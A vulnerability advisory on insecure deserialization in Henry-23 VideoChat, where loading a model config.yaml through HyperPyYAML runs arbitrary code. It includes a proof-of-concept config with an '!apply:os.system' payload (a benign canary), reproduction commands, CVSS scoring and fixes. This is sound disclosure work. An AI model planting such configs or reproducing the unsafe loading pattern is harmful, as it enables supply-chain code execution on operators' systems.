







# Henry-23 VideoChat — Insecure Deserialization (Arbitrary Code Execution) in GLM-4-Voice AudioDecoder config.yaml Loading

## Summary

Henry-23 VideoChat (a real-time interactive digital-human service) loads the
GLM-4-Voice decoder model configuration with `hyperpyyaml.load_hyperpyyaml()`
at startup. The file loaded is `config.yaml` from the model-weights directory
`weights/ZhipuAI/glm-4-voice-decoder/`, which operators populate from
third-party model repositories (ModelScope/HuggingFace mirrors, re-uploads,
internal mirrors). HyperPyYAML documents are executable serialization: the
`!apply:` and `!new:` constructors import and call arbitrary Python
callables/classes **during** the single `yaml.load` call, before the parser
returns. An attacker who controls any `config.yaml` in that directory
therefore gets arbitrary code execution in the operator's environment at
application startup — no user interaction beyond deploying the weights, and
no reliance on any field of the returned configuration object.

## Affected Product

| Field | Value |
|---|---|
| Vendor | Henry-23 (Weiheng Chi) |
| Product | VideoChat (real-time voice interactive digital human) |
| Affected versions | master @ commit `303681e69ef1e29c7de5ca1a56435c89ea6f7f67` (2025-12-18, HEAD at the time of writing; the repository has no tagged releases) |
| Component | `src/GLM_4_Voice/flow_inference.py`, class `AudioDecoder`, `__init__` (lines 19-30; sink at lines 23-24), reached from `src/glm.py` `GLM_4_Voice.load_weights()` (lines 47-55) |
| Platform | Linux (documented: Ubuntu 22.04, Python 3.10, CUDA 12.2); OS-independent by nature |
| Vulnerability type | CWE-502: Deserialization of Untrusted Data |

## Root Cause

**Location:** `src/GLM_4_Voice/flow_inference.py:23-24` (`AudioDecoder.__init__`)

```python
class AudioDecoder:                                   # line 19
    def __init__(self, config_path, flow_ckpt_path, hift_ckpt_path, device="cuda"):
        self.device = device

        with open(config_path, 'r') as f:             # line 23
            self.scratch_configs = load_hyperpyyaml(f)  # line 24 - sink

        # Load models
        self.flow = self.scratch_configs['flow']      # line 27
        self.flow.load_state_dict(torch.load(flow_ckpt_path, map_location=self.device))
        self.hift = self.scratch_configs['hift']      # line 29
        ...
```

`config_path` is built in `src/glm.py:27,47` as
`./weights/ZhipuAI/glm-4-voice-decoder/config.yaml`. The README instructs
operators to populate `./weights` from model-hub repositories
(`modelscope.snapshot_download('ZhipuAI/glm-4-voice-decoder', cache_dir='./weights')`),
and nothing revalidates the file afterwards. `load_hyperpyyaml()` (pinned to
`HyperPyYAML==1.2.2` in `requirements.txt`) registers constructors such as
`!new:` (import and instantiate a class) and `!apply:` (import and call a
function); both execute while `yaml.load` is still parsing — i.e. the
dangerous effect is **parser-internal**: it completes before
`load_hyperpyyaml` returns and does not depend on any "safe field" flowing to
a later sink. The official decoder `config.yaml` itself demonstrates the
format: its first lines are `__set_seed1: !apply:random.seed [1986]`,
`__set_seed3: !apply:torch.manual_seed [1986]`, and its `flow:`/`hift:` keys
are `!new:cosyvoice...` object constructions. Consequently there is no way to
treat tags in this document as inert data: any party who can place a
`config.yaml` in the decoder weights directory fully controls code that runs
inside the VideoChat process.

`torch.load()` on `flow.pt`/`hift.pt` at lines 28/30 is a separate whole-file
deserialization concern of the same "weights are trusted" assumption; it is
**out of scope** for this report and not relied upon in any way.

## Proof of Concept

### Prerequisites

- A VideoChat checkout at commit `303681e69ef1e29c7de5ca1a56435c89ea6f7f67`.
- Python with `HyperPyYAML==1.2.2` (as pinned by the project's
  `requirements.txt`) plus `torch`/`torchaudio`/`numpy` so that
  `flow_inference.py` imports. The validation harness used CPU wheels; the
  defect is independent of the torch version.
- The attack primitive is a decoder `config.yaml` in the model directory —
  the same file type operators copy from model hubs. The sample below uses a
  **benign sentinel** (`id` recorded to `pwned_canary.txt`); any payload the
  attacker chooses would run identically.

### Steps to Reproduce

1. Pin the source and confirm the sink (commit `303681e`, still master HEAD):

   ```bash
   curl -sSL "https://codeload.github.com/Henry-23/VideoChat/tar.gz/303681e69ef1e29c7de5ca1a56435c89ea6f7f67" -o vc.tar.gz
   tar xzf vc.tar.gz && mv VideoChat-303681e69ef1e29c7de5ca1a56435c89ea6f7f67 VideoChat-303681e
   cd VideoChat-303681e
   grep -n load_hyperpyyaml src/GLM_4_Voice/flow_inference.py   # lines 5 and 24
   ```

   

   

2. Observe that the **official** decoder config is executable-by-design
   (reference copy from ModelScope `ZhipuAI/glm-4-voice-decoder`,
   `poc/official_decoder_config.reference.yaml`):

   

3. Generate the attack sample and the negative control with `poc/make_poc.py`
   (run from the repo root). Both mirror the official layout; they differ
   **only** at the `flow:` position — a `!apply:os.system` constructor in the
   attack sample vs. a plain mapping in the control:

   

   ![Attack sample: flow: !apply:os.system [...] sentinel](screenshots/07-evil-config.png)

4. Confirm the canary file does not exist yet, then start the decoder exactly
   as `src/glm.py` does at startup (`poc/run_audio_decoder_load.py` drives the
   real `AudioDecoder.__init__` from the pinned tree):

   ```bash
   ls pwned_canary.txt        # -> No such file or directory
   python run_audio_decoder_load.py weights/ZhipuAI/glm-4-voice-decoder/config.yaml
   ```

   The constructor executes the payload during `load_hyperpyyaml()` at line
   24, then stops at line 28 with `AttributeError: 'int' object has no
   attribute 'load_state_dict'` (`os.system` returned an `int`; no checkpoints
   are shipped with the PoC). Both facts are evidence: execution reached line
   28, and the file written at line 24 already exists.

   

5. Show the file created during the YAML load:

   ```bash
   cat pwned_canary.txt
   # uid=1000(...) gid=1000(...) groups=...
   # code-exec-during-load_hyperpyyaml
   ```

   

6. Negative control — same file with the `flow:` position as a plain mapping:

   ```bash
   rm pwned_canary.txt
   python run_audio_decoder_load.py weights/ZhipuAI/glm-4-voice-decoder/config.benign.yaml
   ls pwned_canary.txt            # -> still No such file or directory
   ```

   The constructor fails at the same line 28 (a dict has no
   `load_state_dict`), but nothing executes and no canary appears — the only
   difference between the two runs is the HyperPyYAML tag at the `flow:`
   position.

   

   

### Expected vs Actual

- Expected: a model-configuration file placed in the weights directory is
  parsed as data; loading it must not run attacker-chosen code.
- Actual: `load_hyperpyyaml()` executes `!apply:`/`!new:` constructors during
  parsing. A `config.yaml` from an untrusted model source executes
  attacker-controlled calls inside the VideoChat process before the parser
  returns.

### Sanitized PoC input

```yaml
# weights/ZhipuAI/glm-4-voice-decoder/config.yaml (attack sample, benign sentinel)
__set_seed1: !apply:random.seed [1986]

sample_rate: 22050
llm_input_size: 1024
llm_output_size: 1024
spk_embed_dim: 192

flow: !apply:os.system ["id > pwned_canary.txt 2>&1; echo code-exec-during-load_hyperpyyaml >> pwned_canary.txt"]

hift: !new:builtins.dict
```

SHA-256 (as generated by `poc/make_poc.py`, also in `poc/samples/SHA256SUMS.txt`):

```text
f7302ee26f0aba862e952b4a4a50c2c58a49e247523a160afa806119bda5c2f9  weights/ZhipuAI/glm-4-voice-decoder/config.yaml
9eae53d5d3749816c2275938bd2c3da7ec05ecd41a2ed9cbe5e260ad9d5ae987  weights/ZhipuAI/glm-4-voice-decoder/config.benign.yaml
```

**Validation boundary, stated honestly.** Verified on 2026-10-07 in Kali
Linux (WSL2, Python 3.13) against the pinned tree
`VideoChat-303681e`, driving the real `AudioDecoder.__init__` imported from
`src/GLM_4_Voice/flow_inference.py` with `HyperPyYAML==1.2.2` and
`ruamel.yaml==0.17.28` (the minimum version HyperPyYAML 1.2.2 declares).
Reproduced end-to-end with the sentinel payload and matched negative control;
sample hashes above. Not verified: a full VideoChat deployment with genuine
GLM-4-Voice checkpoints (the harness deliberately omits `flow.pt`/`hift.pt`;
the defect fires at line 24, before checkpoint loading), other branches
(`cascade_only`), and non-Linux platforms. Two environment notes, stated
without weighting the conclusion: (1) with the newest `ruamel.yaml` (0.19.x)
HyperPyYAML 1.2.2 itself raises `AttributeError: 'Loader' object has no
attribute 'max_depth'` before any constructor runs — a compatibility break in
the loader, not a mitigation; any deployment that can load the official
config at all executes constructors by design. (2) The harness used CPU torch
wheels (2.14.1) rather than the project-pinned torch 2.3.0 (which predates
Python 3.13); the defect lives entirely in the YAML-loading step.

## Impact

- Confidentiality: **High** — arbitrary code runs in the operator's
  environment with the service account's privileges; model weights, API keys
  configured in `app.py` (e.g. `DASHSCOPE_API_KEY`), and service data are
  readable.
- Integrity: **High** — arbitrary code can modify files, the served digital
  human, or the weights directory itself (persistence).
- Availability: **High** — arbitrary code can crash or stop the service.
- Scope: code execution during model configuration loading (supply-chain
  style: the "payload" is any `config.yaml` an operator obtains from a
  mirror, re-upload, or compromised model repository — the same trust decision as
  downloading weights, which VideoChat currently extends to this YAML file).

## Attack Vector and Severity (CVSS v3.1)

| Metric | Value | Rationale |
|---|---|---|
| Attack Vector | N (Network) | The payload arrives with model weights fetched from network repositories/mirrors |
| Attack Complexity | L (High not required) | No special conditions beyond the documented weight-install flow |
| Privileges Required | N (None) | Attacker needs no account on the victim host; publishing a model repo is unauthenticated |
| User Interaction | R (Required) | An operator must obtain/deploy the crafted weights (equivalent to "open a crafted file") |
| Scope | U (Unchanged) | Execution stays in the VideoChat process/security context |
| Confidentiality | H | Full compromise of the service account's data |
| Integrity | H | Full compromise of the service account's files |
| Availability | H | Service can be stopped or crashed |

```
Score: 8.8 (High)
Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
```

Assumption note: if one models the attack strictly as local file placement
(attacker with write access to `./weights`), the vector becomes
`AV:L/...` (7.8); the network/supply-chain framing above reflects the
realistic distribution path (untrusted model mirrors), and the more
conservative score is reported per convention.

## Remediation

1. Do not feed model-directory YAML into `load_hyperpyyaml()`. Parse
   configuration as data (e.g. `yaml.safe_load`) and construct the two model
   objects in code, or load HyperPyYAML documents only from
   operator-controlled, integrity-verified files.
2. If HyperPyYAML semantics are required, verify integrity before loading:
   pin expected hashes of `config.yaml` alongside the weights, or ship the
   configuration inside the repository instead of inside the downloadable
   model snapshot.
3. Defense in depth: document that weights directories are untrusted input;
   prefer `safetensors` for checkpoints (also addresses the adjacent
   `torch.load` concern, which is out of scope here).

## Timeline

| Date | Event |
|---|---|
| [unknown] | Vulnerability introduced (pattern predates the audited commit) |
| 2026-10-07 | Vulnerability confirmed against master @ `303681e` (HEAD, last push 2025-12-18) |
| 2026-10-07 | Report prepared; upstream dispatch [pending — repository has no security policy or private-reporting channel] |
| [pending] | Maintainer response |
| [pending] | Fix released |

## References

- Source repository: https://github.com/Henry-23/VideoChat
- Affected commit: https://github.com/Henry-23/VideoChat/commit/303681e69ef1e29c7de5ca1a56435c89ea6f7f67
- Sink file: https://github.com/Henry-23/VideoChat/blob/303681e69ef1e29c7de5ca1a56435c89ea6f7f67/src/GLM_4_Voice/flow_inference.py#L19-L30
- Caller: https://github.com/Henry-23/VideoChat/blob/303681e69ef1e29c7de5ca1a56435c89ea6f7f67/src/glm.py#L47-L55
- Official decoder config reference (ModelScope): https://www.modelscope.cn/models/ZhipuAI/glm-4-voice-decoder
- HyperPyYAML (constructors `!new:`/`!apply:`): https://github.com/speechbrain/HyperPyYAML
- CWE: https://cwe.mitre.org/data/definitions/502.html
- Upstream report: [pending publication]

## Disclaimer

This report is provided for defensive and coordination purposes. It contains
no ready-to-run exploit beyond the minimum reproduction information (a benign
sentinel payload), and no sensitive infrastructure details. Do not disclose
it publicly before the maintainer has had a reasonable window to fix the
issue.

## Screenshot Checklist

All screenshots are real terminal windows (Windows Terminal driving a Kali
Linux WSL2 session) captured on 2026-10-07 during the actual reproduction
above; every visible output line is the genuine result of the command shown.

| File | Content |
|---|---|
| `screenshots/01-env.png` | Harness environment: `pip show HyperPyYAML` → Version 1.2.2 (Python 3.13 site-packages path visible) |
| `screenshots/02-ruamel.png` | `pip show ruamel.yaml` → 0.17.28, `Required-by: HyperPyYAML` |
| `screenshots/03-grep-sink.png` | `grep -n load_hyperpyyaml src/GLM_4_Voice/flow_inference.py` → lines 5 and 24 in the pinned tree |
| `screenshots/04-sink-lines.png` | `AudioDecoder.__init__` (lines 19-30) showing the `open()` + `load_hyperpyyaml(f)` sink |
| `screenshots/05-official-config.png` | Official ModelScope decoder `config.yaml` header: `!apply:` calls are part of the benign file |
| `screenshots/06-make-poc.png` | `python make_poc.py` generated both samples and printed their SHA-256 hashes |
| `screenshots/07-evil-config.png` | Attack sample content: `flow: !apply:os.system [...]` sentinel, `hift: !new:builtins.dict` |
| `screenshots/08-trigger-rce.png` | Real `AudioDecoder` run on the attack sample: payload executed during line 24, constructor stops at line 28 (`'int' object`) |
| `screenshots/09-canary.png` | `cat pwned_canary.txt`: `id` output + fixed marker, written during `load_hyperpyyaml` |
| `screenshots/10-benign-control.png` | Negative control: same crash site with `'dict' object`, nothing executed |
| `screenshots/11-canary-absent.png` | `ls pwned_canary.txt` → absent after the negative-control run |
